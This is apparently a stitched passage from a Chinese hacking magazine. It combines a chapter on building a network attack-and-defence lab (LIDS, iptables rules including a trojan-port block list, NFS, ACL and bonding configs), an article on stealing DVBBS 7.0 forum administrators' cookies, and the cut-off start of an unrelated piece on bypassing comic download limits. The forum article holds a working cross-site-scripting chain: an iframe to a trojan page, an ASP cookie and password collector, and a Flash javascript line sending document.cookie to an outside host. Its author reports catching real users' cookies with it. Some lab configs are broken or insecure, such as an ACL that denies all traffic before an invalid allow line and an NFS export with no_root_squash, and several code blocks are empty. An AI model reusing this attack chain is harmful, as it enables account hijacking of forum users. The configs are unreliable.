整个结构从访问实验室请求进行系统流程分析设计。当用户访问实验室，首先通过入侵检测网关；如果访问数据异常（比如端口扫描行为等），则 LIDS 作出智能判决，防止此类数据的恣意行为。随后数据进入包过滤检测机制，监测访问实验室内的数据内容并予以通过；通过用户身份验证后，获得用户所拥有的空间（此空间可想象成现实生活中的私有个人天地）。由此，用户可通过路由器访问控制列表，从文件共享服务器获得必要的知识文献和操作工具，对实验网络中的设备系统进行实际实验，而这些工作的流程则由一种跟踪机制记录用户在实验室活动的情况和研究学习状态。在整个实验室网络之中，放置网络数据嗅探系统，实现对整个实验室结构的动态监控，以了解实验室所发生电子实验的正常情况和某些非法“喧闹”。

测试基于网络的攻击至少需要一种有真实生命周期的网络类型，即实验室本身的构架是一种真实物理环境所构建。这样做虽然会以极大资金配置必需设备，然而高效设备构建的网络环境将是实验室平台建设的基础结构；如果基础结构本身存在隐患，那么实验室建设得再辉煌，最终也会是畸形应用和尴尬运行保障。因此本设计采用庞大的硬件设备支撑整个平台，其网络框架结构如图39所示。

## 第四部分 大型网络安全实验室

大型网络攻防实验室本身是用于漏洞研究、病毒剖析和类似安全相关软件测试的一种网络环境，同时它提供网上学习、测试训练和教学指导的便利设施，提供全面综合的学习研究网络底层理论、攻击思维和防御手段的最佳场所，并提供优秀稳定的服务质量。

宽阔空间的大型网络攻防实验室犹如一个精致细密的“太空站”，为广大网络爱好者和研究学者提供在电子空间中进行各种模拟实验的条件，以获得新的知识和新的体验。整个设计需要提供足够带宽接入以容纳众多连接实验，网络层级的负载均衡则为实验室提供巨大的服务冗余度，而用户所进行的实验活动则需要建立审计机制记录用户操作行为和具体研究状态，并对设备连接的每一层进行安全设计。根据这个思路，本网络攻防实验室的结构框架图如图38。


大型网络安全实验室安全拓扑图

图39

网络实验室本身性质决定网络内数据流动性非常频繁而密集，因此百兆以太网络结构将是非常不错的网络选型。使用集线器代替交换机，则是考虑到使会话劫持和嗅探操作实验更为便利。

### 网络实验室系统组装

本实验室中具体采用的操作系统和设备装置如下所述（应用程序将使攻击实验室具有系统类型的多样性和健壮性）。

根据网络拓扑图：

- 工作站1-4号机预装 Windows 2000 Professional。
- 工作站1-4号机安装 Vmware Workstation。
- 在基于 UltraSPARC 体系结构上安装 Solaris 2.6、7 和 8。
- Solaris 8 for host "jumpstart"。
- Red Hat Linux 7.1 for host "gsx"。
- Vmware GSX Server for host "gsx"。
- Red Hat Linux 7.1 for hosts "accounts" and "files"。


大型网络安全实验室结构设计图

图38

> 注意：对操作系统和软件环境进行镜像克隆，并在分离的分区中保存镜像文件。

优选软硬件装载的能力：

- 使用 JumpStart 服务来迅速恢复其他 UltraS 车机的不同版本 Solaris 系统。
- VMware GSX 服务器系统存储 12 个预配置的、基于 Intel 芯片且含有不同补丁的操作系统，这些系统可以经由 Web 接口访问。平均每个 CPU 可以运行 4 个操作系统。

其他可选设备：

- 多路视频输入的投影仪，用于网络实验室进行具体实地教学。
- 标准网络机架用于承载设备，减少占地空间需求。
- UPS 设备维持电源。
- 避雷设备以避免电击造成设备损坏。

### 实验室安全设计

为保证实验室的可靠稳定运作，必须提供相关安全机制，保障各类实验活动的顺利实施。而攻击实验室环境内的活动性质本身决定了安全措施是一个明显需要考虑的方面。安全设计将根据网络 ISO 结构进行分层安全设计，主要包括物理层安全、逻辑访问控制、网络安全和应用程序安全性。

#### 一、物理层安全性

攻击实验室的安全措施应该确保其机器和设备不能与其他应用/办公设备混杂互联。物理层安全措施应包括：放置位置、连接线缆和注释标签。

放置位置：在攻击实验室中，重要的主机系统应与其他通用实验机器分离，放置于不同机柜中。而放置重要主机系统的机柜中应存放如下系统设备：

- 账号管理服务器：一台 Linux 服务器，提供用户认证和安全 Web 浏览。
- 文件共享服务器：使用 Linux 作为服务器，采用 NFS 和 SMB 协议提供用户和项目文件存储地点。其中存放知识库和工具仓库，便于授权用户获取。
- 防火墙：一台 Linux Netfilter 服务器，限制用户访问的数据类型。
- 网络枢纽：路由器提供对攻击实验室访问的 ACL 列表限制。

连接线缆：所有攻击实验室连接线缆最好使用同一种颜色（如粉红色）以便与其他线缆区分。这种颜色线缆仅用于攻击实验室专用，并且必须非常醒目，以便分辨确认。

注释标签：攻击实验室的所有机器和设备都应清楚地贴上醒目标识。标签应贴在集线器、路由器、计算机和显示器上，放置位置应醒目，标签颜色也应醒目，以便迅速辨明攻击实验室的每一个设备。标签内容应维系实验室网络设备的身份说明。如下例子是一个优秀范例：

> “此系统仅授权使用于攻击实验室内，在实验室范围内对此系统进行操作前必须得到信任授权。用户对网络线缆、集线器和其他设备严禁操作。”

#### 二、逻辑访问控制

攻击实验室逻辑访问控制应能阻止未授权用户和网络请求访问攻击实验室关键资源。逻辑访问包括：用户认证机制、超级管理员密码安全措施、文件服务器共享数据访问限制和分布式管理。

超级管理员密码安全措施：对于实验室中承担关键服务应用的主机和设备系统（用户账户管理服务器、防火墙、路由器等设备属于“攻防实验室”核心级系统），权限只能掌握在少数实验室管理员手中。实验室管理员必须是对实际设备进行管理的相关人员，禁止使用任何远程管理工具。一般用户不能获得该特殊权利，更无法从管理员处获取此类密码。管理员密码强度必须足够，例如至少 8 位数字/字母组合并包含特殊字符（如 `@`、`%` 等）。

文件服务器共享数据访问限制：文件服务器中的文件允许通过 SMB 或 NFS 方式连接访问。这种连接访问只能限制于特定网络和用户所发出的请求，且不能广播到实验室外不相关网络中。

分布式管理权限设置：网络攻防实验室中关键服务设备和主机系统应设置分离的管理权限组。各管理组之间无关联，例如管理路由器的管理员不具备管理账户管理服务器的特权。这样可避免任何单一管理组任意闭锁和禁用实验室内所有关键服务器安全设置。

#### 三、网络层安全

攻击实验室网络安全措施必须能阻止来自外部网络的非法访问和异常数据流。这里所述安全性包括：入侵检测机制、路由访问列表、防火墙过滤机制和网络数据检测机制。

入侵检测机制：对进入实验室网络的访问请求和操作活动数据进行动态控制和监测，建立 LIDS 系统实现实验室“关口”检查，实现纵深防御的表层防御。

路由访问列表（ACL）：核心路由器是整个网络实验室拓扑的数据交换枢纽。使用访问列表可以有效防止对不应被访问的账户和文件进行非法访问。任何实验操作活动都通过 ACL 进行设备访问限制，有效提高网络安全访问的隔离度和策略性。

防火墙过滤机制：对访问请求数据包进行分离检查，阻断如 DDoS、SYN FLOOD 等恶性攻击行为，保障实验室正常运行，有效提高整体安全程度，并保障访问实验室及实验操作所需协议（如 sftp、ssl、http/https 等）的可用性，便于用户使用网络实验室空间进行实验。

网络数据检测机制：使用如 Tcpdump 等嗅探工具对集线器级网络进行动态数据监控。当数据不匹配预定义标准操作模式时，将触发实验室接入关口关闭动作，并向实验室管理员发送告警信息。

#### 四、应用层安全

攻击实验室应用程序安全措施必须提供实验用户在其环境中应有的操作权限，即以最小限制原则保障用户实验，同时防止越权处理高层实验活动。应用程序安全包括：非交互式用户访问、不可执行命令的用户空间、提供实验服务的实验地点、安全 Web 浏览访问和操作系统维护。

非交互式用户访问：有账户用户可使用 SSH 登录服务器账户空间。但在进行实验操作前，需使用 sftp/ftp 从软件仓库下载必要工具，并从实验 KB 下载教程。由于启用 ftp 服务器会增加管理难度，因此依据登录用户认证结果，将相应角色授权到文件服务器不同目录，是简化管理的有效方法。

不可执行命令的用户空间：用户拥有自己的存储空间用于放置学习心得、实验材料和常用工具，因此限制用户空间执行权限尤为重要。若允许执行，用户可能恶意执行任意文件；如果服务器存在可提权漏洞，将对整个实验室造成颠覆性影响。在 Linux 中可通过挂载只读分区轻松实现该限制。

提供实验服务的实验地点：实验室提供的所有实验服务对用户都应可访问。用户账户提供普通用户登录并进入各自实验空间；SSH 协议用于实验室内部关键服务器管理操作，必须分离普通实验账户与管理账户。文件共享使用 SMB 和 NFS 协议向整个攻击实验室提供工具访问。GSX 在整个攻击实验室中提供匿名 FTP 访问和局部 DNS 解析作用。账户管理服务器用于认证外部请求；文件共享服务器需要不断从 Internet 更新工具软件和 KB 内容，因此不能使用攻击实验室内 DNS 进行解析。

安全的 Web 浏览访问：安全浏览 Web 一般使用 HTTPS 协议。然而用户登录账户空间仅提供命令行特权集（Shell 解释环境）。因此可使用文本方式的 lynx 实现安全 Web 浏览（也可使用远程终端访问 X Server 进行图形界面操作，但这会随实验用户增加而大量消耗有限带宽）。也可配置相应 Web 服务器，为用户提供远程 KB 库访问，实现实验教程的便捷阅读、下载和保存。

#### 五、负载均衡处理

整个网络中的数据业务量分布不平衡：核心高、边缘低；关键业务处理高、一般信息访问低。随着网络信息交互日益增加，高带宽应用需求不断增大（如 Web 访问、文档传输及内网连接），信息交互服务接口将出现瓶颈，导致实验用户请求响应时间延长。此外，网络本身若缺少服务器保护机制，硬件故障或线路故障会导致服务与网络断开，无法正常服务。

解决瓶颈问题的传统对策是提升服务器链路容量，使其超出当前需求，例如从快速以太网升级到千兆以太网。但在需求远未达到带宽四分之一时，建设高容量带宽将浪费资金、硬件和资源。在这种情况下，采用链路聚合技术可消除传输链路瓶颈与不安全因素，提供低成本、可灵活扩展的解决方案。

链路聚合技术将多个物理线路容量融合为单一逻辑连接，使交换机之间以及交换机与服务器之间的链路带宽具备良好伸缩性。例如可将 2、3、4 条百兆链路绑定，使带宽成倍增长。同时，链路聚合可实现不同端口间负载均衡，并可互为备份，保障链路冗余。

针对当前网络平台设计结构，堡垒主机及关键业务处理服务器可采用同一网卡的多个端口映射到同一 IP 地址，实现链路聚合，进行本地以太网流量负载均衡、链路故障冗余备份，并成倍提升服务器服务带宽。

目前市面上 Intel 和 D-Link 的多端口网卡支持链路聚合技术；同时采用 RedHat 提供的 Channel Bonding 技术，可方便快捷地实现动态链路备份功能，提高整体网络稳定性。

### 具体配置步骤

#### 一、LIDS 入侵侦测系统建立

由于 Linux 系统代码开放，其漏洞较易被挖掘和利用。根据日常经验，漏洞补丁往往滞后于漏洞利用代码出现，导致文件系统、进程空间和管理控制难以有效保护。一旦黑客入侵成功，可能掌握整个操作系统，造成巨大危害。因此使用强大的 LIDS（Linux Intrusion Detection System）系统是解决此类问题的有效办法。

Linux 入侵侦测系统是 Linux 内核补丁和系统管理工具。它在内核中实现参考监控模式以及 Mandatory Access Control（强制访问控制）模式，增强内核安全性。启用 LIDS 后，可对文件读/写/执行、系统/网络管理操作、用户特权操作、raw device、mem 和 I/O 读写操作进行限制，甚至可限制 ROOT 操作。LIDS 通过扩展系统功能，对整体系统进行锁定控制，并在内核中增强网络与文件系统安全特性，从而提升安全性。还可根据环境需求在线调整保护策略、隐藏敏感进程、通过网络接收安全告警等。

- LIDS 系统保护设计：
  - 保护硬盘上任何类型的重要文件和目录，任何人（包括 ROOT）都无法更改；
  - 保护重要进程不被终止；
  - 防止非法程序执行 RAW I/O 操作，保护硬盘（包括 MBR）；
  - 保护系统敏感文件；
  - 防止未授权者（包括 ROOT）及未授权程序进入。
  - 当发现扫描行为时，LIDS 可侦测并报告系统管理员，同时可检测系统中任何违反规则的进程。
  - 当登录系统维护操作违反预定义规则时，LIDS 会将非法操作细节记录到受保护的系统日志文件中，将日志信息发送到邮箱，并立即关闭与用户的会话。

通过 LIDS 增强系统安全属性，提供入侵预防能力，保证整个网络平台安全可靠。

- LIDS 安装步骤：
  1. 从附带光盘或 www.lids.org 下载 LIDS 软件包。`lids-a.b.c-x.y.z.tar.gz` 中 `x.y.z` 表示对应 Linux 内核版本（可用 `uname` 查看）。
  2. 解压后，使用 LIDS 附带内核补丁为对应内核打补丁（以 RedHat 7.2 为例）。
  3. 使用 `make menuconfig` 或 `make xconfig` 重新编译内核，并选择如下配置项：
     - `Code maturity level options ---> [*] Prompt for development and/or incomplete code/drivers`
     - `General Setup ---> [*] Sysctl support`
     - （注：需要启用 `CONFIG_EXPERIMENTAL` 以使用 LIDS 全部功能。）
  4. 到 LIDS 解压目录编译并安装源文件。
  5. 预配置 LIDS 系统：
     - 5.1 生成 LIDS 管理密码：`lidsconf -P`
     - 5.2 编辑 `/etc/lids/lids.cap` 以启用或关闭所需 LIDS 入侵监测特性。
     - 5.3 编辑 `/etc/lids/lids.net` 定义网络参数，以便通过 Email 发送入侵告警。
     - 5.4 使用 `lidsconf` 配置基本规则集（可用 `-h` 查看帮助）。
     - 5.5 修改启动脚本以封装新编译内核：`lidsadm -I`
  6. 安装新内核，并在 `/etc/lilo.conf` 添加相应启动项。
  7. 重启系统，如发生错误可在引导提示输入：`lids=0`。
  8. 使用方式简介：
     - 8.1 增加只读文件：`lidsadm -A -r /etc/lilo.conf`
     - 8.2 增加只读目录：`lidsadm -A -r /sbin/`
     - 8.3 删除文件保护：`lidsadm -A -z /sbin/ignore`
     - 8.4 改变 LIDS 安全模式：`lidsadm -S -- -LIDS`
     - 8.5 列出受保护文件系统：`lidsadm -L`

```bash
cd /usr/src/linux
patch -p1 < /path/to/LIDS-patch/lids-a.b.c-x.y.z.patch
make dep; make clean; make bzImage
```

此时不要立即安装新内核并重启机器，因为新内核尚未完成全部配置。

```bash
./configure
make
make install
```

## 数据包过滤防火墙设置

本防火墙采用 Linux Netfilter 框架实施数据过滤。以下配置策略是包过滤示范和 NAT 访问实现，读者可按需扩展。

```bash
# 关闭 IP 欺骗攻击
echo 2 > /proc/sys/net/ipv4/conf/all/rp_filter

# 忽略 ICMP 广播 PING
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts

# 启用数据转发
echo 1 > /proc/sys/net/ipv4/ip_forward

# 阻止源路由
echo 0 > /proc/sys/net/ipv4/conf/all/accept_source_route

# 关闭时间戳
echo 0 > /proc/sys/net/ipv4/tcp_timestamps

# 使能 SYN Cookies
echo 1 > /proc/sys/net/ipv4/tcp_syncookies

# 关闭重定向
echo 0 > /proc/sys/net/ipv4/conf/all/accept_redirects

# 启用错误信息保护机制
echo 1 > /proc/sys/net/ipv4/icmp_ignore_bogus_error_responses

# 允许动态 IP 地址
echo 1 > /proc/sys/net/ipv4/ip_dynaddr

# 记录数据包中非法访问地址
echo 1 > /proc/sys/net/ipv4/conf/all/log_martians

# 设置本地端口访问范围
echo "32768 61000" > /proc/sys/net/ipv4/ip_local_port_range

# 减少时延以减轻 DDoS 攻击造成的损害
echo 30 > /proc/sys/net/ipv4/tcp_fin_timeout
echo 1800 > /proc/sys/net/ipv4/tcp_keepalive_time
echo 1 > /proc/sys/net/ipv4/tcp_window_scaling
echo 0 > /proc/sys/net/ipv4/tcp_sack
echo 1280 > /proc/sys/net/ipv4/tcp_max_syn_backlog

# 丢弃不合法数据包
IPTABLES -A INPUT -m state --state INVALID -j DROP
IPTABLES -A FORWARD -m state --state INVALID -j DROP

# 允许内部接口所有连接请求
IPTABLES -A INPUT -i lo -j ACCEPT

# 允许 IPsec 隧道数据
IPTABLES -A INPUT -p 50 -j ACCEPT
# 允许密钥协商
# IPTABLES -A INPUT -p udp --dport 500 -j ACCEPT

## ICMP
# 不允许 PING 内部机器
IPTABLES -A FORWARD -p icmp --icmp-type echo-request -o {外网接口} -j REDIRECT
# PING 泛滥攻击保护
IPTABLES -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
IPTABLES -A INPUT -p icmp --icmp-type echo-request -j DROP
# 允许已建立连接
IPTABLES -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# 不接受任何 SMB 协议流量
IPTABLES -A FORWARD -o {外网接口} -p tcp --dport 137 -j REJECT
IPTABLES -A FORWARD -o {外网接口} -p tcp --dport 138 -j REJECT
IPTABLES -A FORWARD -o {外网接口} -p tcp --dport 139 -j REJECT
IPTABLES -A FORWARD -o {外网接口} -p udp --dport 137 -j REJECT
IPTABLES -A FORWARD -o {外网接口} -p udp --dport 138 -j REJECT
IPTABLES -A FORWARD -o {外网接口} -p udp --dport 139 -j REJECT
IPTABLES -A INPUT -i {外网接口} -p udp --dport 137 -j REJECT
```

```bash
# 允许数据转发
iptables -A FORWARD -o [外网接口] -i [内网接口] -j ACCEPT

# 允许针对实验室进行访问的返回流量
iptables -A FORWARD -i [外网接口] -m state --state ESTABLISHED,RELATED -j ACCEPT

# FTP访问
iptables -A INPUT -p tcp --dport 20 -j ACCEPT
iptables -A INPUT -p tcp --dport 21 -j ACCEPT

# SSH访问
iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# Telnet访问
iptables -A INPUT -p tcp --dport 23 -j ACCEPT

# DNS访问
iptables -A INPUT -p tcp --dport 53 -j ACCEPT
iptables -A INPUT -p udp --dport 53 -j ACCEPT

# HTTP访问
iptables -A INPUT -p tcp --dport 80 -j ACCEPT

# HTTPS访问
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# 网络访问NAT实现
iptables -A PREROUTING -t nat -i [外网接口] -p tcp -d $MYADDR --dport 80 \
  -j DNAT --to [内网文件共享服务器]:80

iptables -A POSTROUTING -o eth0 -s [内网文件共享服务器] -j SNAT --to [外网接口]
iptables -A FORWARD -i [外网接口] -p tcp -d [内网文件共享服务器] --dport 80 -j ACCEPT

# 其他规则（日志与丢弃）
iptables -A INPUT -p tcp --dport 1433 -m limit -j LOG --log-prefix "Firewalled packet: MSSQL"
iptables -A INPUT -p tcp --dport 1433 -j DROP
iptables -A INPUT -p tcp --dport 6670 -m limit -j LOG --log-prefix "Firewalled packet: Deepthroat"
iptables -A INPUT -p tcp --dport 6670 -j DROP
iptables -A INPUT -p tcp --dport 6711 -m limit -j LOG --log-prefix "Firewalled packet: Sub7"
iptables -A INPUT -p tcp --dport 6711 -j DROP
iptables -A INPUT -p tcp --dport 6712 -m limit -j LOG --log-prefix "Firewalled packet: Sub7"
iptables -A INPUT -p tcp --dport 6712 -j DROP
iptables -A INPUT -p tcp --dport 6713 -m limit -j LOG --log-prefix "Firewalled packet: Sub7"
iptables -A INPUT -p tcp --dport 6713 -j DROP
iptables -A INPUT -p tcp --dport 12345 -m limit -j LOG --log-prefix "Firewalled packet: Netbus"
iptables -A INPUT -p tcp --dport 12345 -j DROP
iptables -A INPUT -p tcp --dport 12346 -m limit -j LOG --log-prefix "Firewalled packet: Netbus"
iptables -A INPUT -p tcp --dport 12346 -j DROP
iptables -A INPUT -p tcp --dport 20034 -m limit -j LOG --log-prefix "Firewalled packet: Netbus"
iptables -A INPUT -p tcp --dport 20034 -j DROP
iptables -A INPUT -p tcp --dport 31337 -m limit -j LOG --log-prefix "Firewalled packet: BO"
iptables -A INPUT -p tcp --dport 31337 -j DROP
iptables -A INPUT -p tcp --dport 6000 -m limit -j LOG --log-prefix "Firewalled packet: XWin"
iptables -A INPUT -p tcp --dport 6000 -j DROP
```

## 三级安全账户管理

用户账户管理服务设计需要使用数据库和相关资源实现，这里使用 Linux 服务本身的账户管理机制就能轻松实现这种需求。然而这种设计对实验室未来发展将起到阻碍作用，因此在实际建设中推荐采用认证管理接口，实现实验室的统一认证接口、路由访问控制列表及共享文件服务器设置。

### 文件共享服务器NFS文件共享实例

```conf
/etc/exports
/home  192.168.0.0/255.255.0.0(rw)
/      172.16.2.1(rw,no_root_squash)
```

### 路由访问配置实例

```conf
service password-encryption
hostname "ACL-control"
enable password <deleted>

interface Ethernet0/0
 ip address 172.16.1.254 255.255.255.0
 ip access-group 100 out
 no cdp enable

interface Ethernet0/1
 ip address 192.168.1.254 255.255.255.0
 no cdp enable

access-list 100 deny ip any any
access-list 100 allow ip any 172.16.1.0 0.255.255.255
ip route 0.0.0.0 0.0.0.0 192.168.1.254
```

这里的 ACL 设置是非常简单的，如果需要提供文件服务器的权限访问，可以通过设置不同实验用机所需的访问协议不同，进行细节划分，以区别不同应用类型的访问请求。

### 账户管理控制实例

```bash
在某些 /etc/passwd 文件中，bailey 用户只具有 FTP 执行权限
```

```text
root:x:0:0:root:/root:/bin/bash
baileydl:x:27262:100::/home/baileydl:/usr/bin/ftp
browser:x:11111:100::/home/browser:/bin/browser
```

### 非可执行用户空间实例

```text
文件共享服务器中 /etc/fstab 设置如下：
/dev/hda5 /home ext2 defaults,noexec,nosuid 1 2

客户端服务器中 /etc/fstab 设置如下：
172.16.1.100:/home /xhome nfs rsize=8192,wsize=8192,timeo=14,intr,noexec,nosuid 0 0
```

#### 四、网络数据监测图

网络数据监测器的软件可以选自随机光盘所附带的 tcpdump 软件包。在安装 tcpdump 之前，需要预先安装 libcap 驱动包。解压进入 tcpdump 目录后，运行 make 便可编译完成安装。

```bash
cp tcpdump-3.6.2.tar.gz /usr/local/src/
cd /usr/local/src/
tar xzvf tcpdump-3.6.2.tar.gz
cd tcpdump-3.6.2
./configure
make
make install
```

- Tcpdump 的过滤表达式中有如下几种类型的过滤数据包关键字：
  1. 型别字用于指定主机、网络或端口，包括 `host`、`net` 和 `port`。
  2. 方向字用于指定被捕获方向，包括 `dst`、`src`、`dst or src`、`dst and src`。
  3. 协议关键字指定要截获的数据包所属协议，包括 `ether`、`ip`、`arp`、`tcp`、`udp`。

如果没有在表达式中指明协议，则 Tcpdump 会截获所有协议的数据包。

#### 五、网络负载均衡实现


采用 Redhat 的 Channel Bonding 技术可以绑定多个网卡形成一个通道，我们可以把这个通道称为通道绑定接口。它能使两个或多个网卡同步工作，并且收发数据，增加带宽并提供故障冗余。设计框架图如图 41。

1. 在 `/etc/sysconfig/network-scripts/` 目录中创建 `ifcfg-bond<N>` 的文件，这里 `<N>` 所代表的含义是网卡接口，这里只设置一个文件，所以文件名为：`ifcfg-bond0`。

```conf
ifcfg-bond0
DEVICE=bond0
BOOTPROTO=none
ONBOOT=yes
NETWORK=10.0.1.0
NETMASK=255.255.255.0
IPADDR=10.0.1.27
USERCTL=no
```

2. 加入实际物理网卡。

```conf
ifcfg-eth<N>
DEVICE=eth<N>
BOOTPROTO=none
ONBOOT=yes
MASTER=bond0
SLAVE=yes
USERCTL=no
```

3. 编辑 `module.conf`，使内核模块能装载。  
   `alias bond0 bonding`

4. 安装通道绑定接口。

```bash
/sbin/insmod bond0 <parm=value>
参数意义：
mode=: 设定一种绑定策略
```

- 0：轮循策略的负载均衡机制。
- 1：为故障冗余提供动态备份策略。
- 2：设置异或策略，提供故障冗余和负载均衡。
- 3：设置发送数据轮循，故障冗余和负载均衡。

`miimon=`：指定 MII 链路监控出现的时间间隔。可用 `ethtool <interface-name> | grep "Link detected:"` 判断网卡是否支持 MII。默认设置为 100。

`downdelay=`：以微秒级指定链路发生故障多久关闭链路。

`updelay=`：与 downdelay 相反，在启用链路前等待多久时间。

`arp_interval=`：指定 ARP 监控多久发生一次（微秒级单位），使整个通道内网卡上均匀分布数据包的发收。默认值为 0。

`arp_ip_target=`：当 arp_interval 参数启用后，指定目标 IP 地址的 ARP 请求。最大可支持 16 个 IP 地址，每个地址之间使用逗号间隔。

`primary=`：指定接口名称，比如 eth0，作为主设备。主设备作为通道内第一个使用的接口，除非其发生故障，否则设备将一直承担数据收发的任务。

`multicast=`：指定所期望支持的组播类型。

- 0：关闭组播支持。
- 1：启用组播特性，受控所有从（slave）网卡设备。
- 2：启动组播特性，支持所有从（slave）网卡设备。

> （关于具体参数的详细设置可参阅：`/usr/src/linux-2.4/Documentation/networking/bonding.txt`）

### 小结

个人攻防实验室的建立有利于网络兴趣爱好者在学习网络知识的同时，能把网络各种繁杂的工具软件和精美文章进行系统收录，实现家庭环境中简单的一些实验操作。然而由于家庭经济限制和硬件设备投入小，使得个人攻防实验室本身不具有交流场所、信息研究的发布平台等诸多缺点。

安全组织攻击实验室具有开放性的交流场所和系统的学习机制，目前它也是互联网攻防实验室的主要表现形式，为广大网络爱好者和研究人员提供了细腻的交互空间，它是学习网络基础知识的最佳场所。由于其开放性的气质，其所研究的漏洞和各种协议攻击是广为所知和公开性的，对于最新的漏洞或者安全攻击不能进行有效的研究和学习、作出及时反映，因此它的主要目的是以学习为主。

企业团体攻防实验室是应用于商业化产品所建立的研究基地，其主要特点就是学习研究向网络漏洞和安全产品测试，对外部是保密。毕竟企业需要这些研究成果进行相关安全的研发，从而快速有效地生产强劲产品，以使企业能统领市场，立于不败之地。其研究隐秘性和严安全设置决定实验室本身是私有场所，所提供的学习功能不强，并且研究的安全话题专一，研究内容有时会显现单一化。

完成一个巨型的网络实验室其价值在于：在浩瀚的电子空间建立稳定、完善和高效的网络实验基地，然而需要庞大的硬件支撑体系和细致认真的维护工作，投入资金、设备占地面积以及后期维护费用将是非常巨大的，在实际构架中必须考虑到这点。

综上所述，合理有效地在赛伯电子空间建立符合自身需要的安全研究实验室，不仅要考虑所投入的硬件设备、维护任务和操作易用性，同时还有研究目的、实验取材和学习功能等诸多效应因素。

- 参考资源：
  1. http://www.cvshome.org/
  2. http://www.isi.edu/nsnam/ns/
  3. http://sourceforge.net
  4. http://www.netraverse.com
  5. http://www.phpbb.com


动网论坛的最新版本：DVBBS 7.0 发布了，这个在中国使用率最广的论坛，在新版本中又加入了许多更加人性化的设计，使用起来更加方便了。

学校放寒假后，天天呆在家里没事做，闲得无聊，就出来上上网。突然发现，我常去的几个论坛全都升级成了 DVBBS 7.0。呵呵，正好，我就来测试一下这个的安全性吧~~

DVBBS 发展了这么久，一般常见的漏洞应该都没什么戏唱了，剩下来的就只有看看有没有设计上的失误或者遗漏什么的~

还是先试试我最喜欢的 FLASH 跨站吧~  
打开论坛的短消息服务，给自己发条短消息，里面插入 FLASH 标签，如下~

```text
[flash=0,0]http://www.163.com/asdf.swf[/flash]
```

里面的那个 FLASH 是随便输的一个地址。然后查看这条短消息，晕，上面的语句居然原封不动地躺在那里，看来自这个版本的 DVBBS 默认就关闭了短消息的 FLASH 标签了，而且论坛发帖子地方一般的管理员都会禁止 FLASH 标签的……

看看新版本的 DVBBS 多了哪些新功能吧……  
一眼望去，新版本变化最明显的就是发帖子的地方了，风格变了好多，那功能上是不是也有变化呢？在回别人帖子的时侯无意中发现，居然可以直接粘贴来自 Internet 上的图片！这就意味着支持 HTML 代码！！

马上着手，丢了个动网页木马上去，在帖子里面写上~

```html
<iframe src="http://zhenshen.vicp.net/mm.html" name="zhu" width="0" height="0" frameborder="0">
```

然后提交……晕，代码被摘在了帖子里面，失败……看来只支持某些代码而已。再考虑一下，既然支持贴图的代码，那也就是说应该支持 `` 这样的语句，这样的话我们完全可以利用来拿管理员的 cookie 啊~

马上行动，先在本地写一个 html 文件，内容如下：

```html

```

## 黑客新语

在本地浏览这个 html 文件，打开后马上按 ESC 键，速度要快，不然就跳转了……其中的 info.asp 内容为：

```asp
<%
testfile=Server.MapPath("cookies.html")
msg="<table><tr><td>userid</td><td>" & Request("msg")
msg=msg & "</td></tr><tr><td>userclass</td><td>" & Request("userclass")
msg=msg & "</td></tr><tr><td>username</td><td>" & Request("username")
msg=msg & "</td></tr><tr><td>usercookies</td><td>" & Request("usercookies")
msg=msg & "</td></tr><tr><td>password</td><td>" & Request("password") & "</td></tr></table><br>"
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")
thisfile.close
set fs = nothing
%>
```

这样的话对方的 cookie 信息会保存在 cookies.html 里面……接下来我们来做 FLASH（如图1）。


先建立 19 个空白帧……在“URL”输入框里输入这条语句：

```javascript
javascript:openScript('http://zhenshen.vicp.net/info.asp?'+document.cookie,1,1)
```

然后将这个 FLASH 保存即可。将文件命名为 cookieinfo1.swf，放入 ASP 空间，然后在本地编写 HTML 文件，内容如下：

```html
<embed src="http://你的ASP空间/cookieinfo.swf" loop=false menu=false quality=low bgcolor=#FFFFFF WIDTH="0" HEIGHT="0" TYPE="application/x-shockwave-flash" PLUGINSPAGE="http://www.macromedia.com/go/getflashplayer">
```

可能大家注意到了，刚才编写的 FLASH 文件和这段代码中的文件名不同……那个 info.asp 的内容也要修改一下，在代码最后加上一句：

```html

```

在本地打开写好的 HTML 文件，复制到论坛后台发帖。帖子发好后，把空间上的 cookieinfo1.swf 改名为 cookieinfo.swf。有人打开帖子后会弹出一个非常小的窗口向 info.asp 发送 cookie 信息……（如图2）


第二天起来后，马上去查结果，打开 cookies.html 文件，果然中招了（如图3）。


大家可能注意到了，虽然新版 DVBBS 的密码也是 16 位，可并不是 MD5 加密，并且即使同一个 ID，多次截取到的密码都不同，不过经过测试都可以用于 cookie 欺骗成功……至于 cookie 欺骗的方法不在本文讨论范围。最后声明：本文只是探讨技术问题，请勿将本文内容用于不正当行为。

### 突破在线漫画的下载限制

徐健

本人是一个漫画迷，喜欢收藏精品漫画，但是现在漫画是越来越贵，质量却是越来越差。特别是近来流行四拼一的16开合订本，幅面小得可怜，字都很难看清楚，实在没有收藏的价值。今年连载了十几年的《三只眼》总算完结了，这部漫画我从初中时就开始买了，一直到现在，大本小本买了好几个版本，才买到27卷，后面的13卷一直没有买到。现在想补全这13卷，可是只有这种四拼一的合订本，当然不会拆开买了。一套120大元，实在是划不来。实体书买不到，只好到网上下载电子版再刻盘了。

网络漫画早已不是新生事物。几年前我就逛“动漫无限”网站下过漫画，当时大多数漫画网站还只提供图片、简介，提供漫画下载的寥寥无几。现在的漫画下载资源可是丰富多了，不过大多数都是会员制收费的，偶尔有几个可以免费下载的又总是人满为患，想连上它们的FTP服务器实在是 Mission Impossible。偏偏我在内网，只能通过HTTP代理上网，下载软件比如FlashGet会把通过代理收到的服务器返回错误信息当作要下载的文件内容存盘，致使重试功能无法使用。即便成功连上，由于HTTP代理不能续传，一旦断线就会前功尽弃。因此，FTP下载基本上是没法用的，BT之类的更不用说了，唯一可行的就是HTTP下载。

提供HTTP方式下载的网站几乎没有，但是我却找到了几个在线浏览漫画的网站。有些是论坛形式的，就是利用论坛的贴图功能把漫画一张张贴上；一个页面可以贴几十页漫画，通过网页另存的方法就可以保存整页的漫画，但是由于论坛的改名功能，以及贴图者的疏忽，保存的漫画图片往往会出现顺序错乱，需再费功夫整理校对才行。另外还有采用真正的漫画在线浏览系统的网站，可以一页页翻看。

